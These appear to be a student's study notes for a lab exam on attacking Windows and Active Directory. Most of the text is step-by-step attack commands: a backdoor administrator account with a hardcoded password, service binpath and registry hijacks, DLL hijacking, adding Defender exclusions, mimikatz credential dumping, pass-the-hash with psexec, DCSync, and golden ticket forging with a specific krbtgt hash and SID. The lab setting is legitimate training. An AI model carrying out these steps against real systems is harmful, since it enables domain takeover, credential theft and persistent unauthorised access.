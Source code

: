 >>> general

0) info
> within the notes there are some instructions on how to make certain files, but they can just be downloaded from the repository :)
> the dll and exe have been tested and should just work (username: Helpdesk & pass: L3tm3!n)
> if they don't work you'll have to make them yourself, the notes might help you with it

1) orientation
> ip's and names (hostname, dc-name, etc.) might be outdated for skills test
> use angry ip scanner if available
> look for services without description
> look for services with unquoted service paths
> look for services running as a named user account
> check "C:\Windows\Tasks Migrated" for weakly named tasks (single word names)
> check "\HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\regsvc" (imagepath edit)
> use -> accesschk -uwvc "normaluser" * <- (daclsvc)

2) files to download
> sysinternals suite > https://download.sysinternals.com/files/SysinternalsSuite.zip
> mimikatz > https://github.com/gentilkiwi/mimikatz
// > mike's dll + C code from OneDrive (if dll hijack)
// > bat2exe > https://github.com/islamadel/bat2exe/releases/download/2.1/bat2exe.exe > "access denied error"
// > bat to exe converter > https://bat-to-exe-converter-x64.en.softonic.com/ > should work (make sure to use the 64bit exe-format)

3) commands
> whoami (check current user in terminal)
> dir (list directory contents)
> net user (see users on machine)
> hostname (local domain name)
> echo %logonserver% (domain controller name)
> echo %path% (check path variables for dll hijack)

4) add user command
> net user Helpdesk L3tm3!n /add && net localgroup administrators Helpdesk /add

__________________________________________________________________________________________
__________________________________________________________________________________________
__________________________________________________________________________________________


>>> privilege escalation methods

1) remote mouse // not gonna be in the test (confirmed)
// > click on green icon bottom right
// > settings
// > under image transfer folder click "Change..."
// > click OK if prompted with error
// > go to C:\Windows\System32 and type "cmd"
// > right click cmd -> open (opens system cmd)
// > [add user command]

2) unquoted service path
> open services
> sort by description, so services without a description appear on top
> check if "path to executable:" has spaces and no quotes
> example -> C:\Program Files\Unquoted Path Service\Common Files\unquotedpathservice.exe
> look for writable directory, for example C:\Program Files\Unquoted Path Service
> services always expect an executable (.exe)
> create folder on desktop
> create batch file (.bat) with "[add user command]"
> place batch file inside folder
> use bat2exe on that folder (run bat2exe from cmd)
> rename to common.exe (for this example ofc)
> place exe in C:\Program Files\Unquoted Path Service
> run service
> net user in cmd to check if user is added
> if not, restart machine, run service and check again
> if you have executable rights, maybe run exe from cmd, who knows

3) weak file permission services
> example from lab: C:\Program Files\File Permissions Service\filepermservice.exe
> "filepermservice.exe" can be renamed
> check steps above to make own exe
> place exe inside C:\Program Files\File Permissions Service
> rename old .exe to whatever
> name your own exe to "filepermservice.exe"
> start service
> net user in cmd to check if user is added

4) weak registry permissions (regsvc)
> open registry editor
> go to \HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\regsvc
> right click on imagepath -> select modify
> edit the value data so it points to an exe you control, or
> with bat2exe you can make a .exe that that adds an administrative user (see the notes above)
> open services
> look for the service that has the modified image path as the "path to executable"
> run the service

5) scheduled task
> "C:\Windows\Tasks Migrated" may contain tasks you can exploit / configure
> example from lab: pinger
> "C:\Windows\Tasks Migrated" contained the task "pinger"
> open task scheduler
> the "tasks migrated" folder shouldn't be in the folder tree
> go to action -> import task
> select "all files" on bottom right
> navigate to "C:\Windows\Tasks Migrated"
> open "pinger" or whatever task looks weak (only one word for example)
> go to triggers and see what triggers it
> go to action to see what it does and what file it triggers (.bat for example)
> check if the file is renamable and if the directory is writable
> rename the file to whatever
> place your own file (add administrative user through a batch file)

> open task in notepad (easier method than opening in task scheduler)

6) DACL service
> go to services
> check if there is a dacl service (daclsvc)
> open cmd
> go to where you stored your sysinternals
> accesschk -uwvc "normaluser" *
> it might say "RW daclsvc" (should mean you have read/write rights for the service actions listed)
> sc config daclsvc binpath="cmd /c cmd.exe /c net user Helpdesk L3tm3!n /add && net localgroup administrators Helpdesk /add"
> run the service
> might have to do the sc command multiple times and run the service again

7) dll hijack
> last resort for privilege escalation
> go to services
> there may be a service that indicates a dll hijack
> go to the properties of the service to see the path and name of the .exe it calls
> copy the .exe to your own machine (drag n drop or shared folder)
> open cmd on own machine
> sc create ServiceName binPath= "C:\temp\name.exe" (insert name of .exe)
> run service you made
> open procmon (from sysinternals) on own machine
> click on filter icon (ctrl+L) and add the following 2 filters:
> [result] [is] [NAME NOT FOUND] -> click add
> [path] [ends with] [.dll] -> click add
> click ok
> click on process name to sort
> if the .exe and its dll have multiple entries (like 5+), the %path% variable might be used
> note down the name of the dll
> go back to the VM and open cmd
> echo %path%
> look if there is a writable directory listed (like C:\temp)
> go back to own machine
> download Mike's dll + C code from OneDrive if not done yet
> note down the the fake admin credentials after opening his C code in notepad
> rename dll to the name you noted down earlier
> copy dll to the VM
> place dll inside the directory you found in %path%
> run service
> net user in cmd to check if it worked

__________________________________________________________________________________________
__________________________________________________________________________________________
__________________________________________________________________________________________


>>> static steps after local priv escalation

1) defender exclusion:
> defender icon on bottom right (or type virus and threat protection in search)
> virus and threat protection
> manage settings
> add or remove exclusions
> use fake admin login (".\" for local account)
> add exclusion (folder)
> select c drive

2) download mimikatz/sysinternals
> store in c:\temp for easy access
> same with sysinternals suite

3) administrator hash
> open cmd with fake admin
> cd C:\temp\mimikatz_trunk\x64
> mimikatz
> privilege::debug
> sekurlsa::logonpasswords
> copy ntlm hash from administrator (session:service from 0)

4) priv escalation
> sekurlsa::pth /user:administrator /domain:win10client /ntlm:hash
> dir \\192.168.56.30\c$ (to double check privilege)
> cd C:\temp\SysinternalsSuite
> psexec -r name \\192.168.56.30 cmd

5) admin machine
> whoami (should be administrator)
> cd C:\
> md temp (create temp dir)
> dir (check if temp directory was created
> powershell
> set-mppreference -exclusionpath C:\temp
> (get-mppreference).exclusionpath -> checks the exluded paths
> exit (exits out of PS)
> cd temp
> type "mimikatz" (do not run yet)

6) copying mimikatz to admin machine
> go to original mimikatz cmd (or open new one)
> sekurlsa::pth /user:administrator /domain:win10client /ntlm:hash
> in the new cmd window
> net use x: \\192.168.56.30\c$
> x:
> cd temp
> get ready to switch to admin window from step 5
> copy C:\temp\mimikatz_trunk\x64\*.* .
> immediately run mimikatz on admin machine
> successful if mimikatz is visible on admin machine

7) grab domain admin hash
> privilege::debug
> sekurlsa::logonpasswords
> copy domain admin hash (should be the first one)
> let teacher know if domain admin (domad) doesn't show up

8) dcsync on domain controller
> close both admin cmd windows (you dont need them anymore)
> go to original mimikatz cmd (or open new one)
> sekurlsa::pth /user:domad /domain:adlab.local ntlm:hash
> dir \\192.168.56.10\c$
> cd C:\temp\SysinternalsSuite
> mimikatz
> privilege::debug
> lsadump::dcsync /domain:adlab.local /all /csv
> copy krbtgt

9) golden ticket
> open a normal cmd windows
> whoami /user - copy everyting except last 4 digits
> go to mimikatz
> kerberos::golden /domain:adlab.local /sid:S-1-5-21-3704816349-2630934885-840893638 /rc4:cc326e8519157da4bf8ef543b8680dc3 /user:abcdef /id:500 /ptt

> or.. save for later
> kerberos::golden /domain:adlab.local /sid:S-1-5-21-3704816349-2630934885-840893638 /rc4:cc326e8519157da4bf8ef543b8680dc3 /user:abcdef /id:500 /ptt
> kerberos::ptt ticket.kirbi
> misc::cmd

> dir \\win2019dc\c$
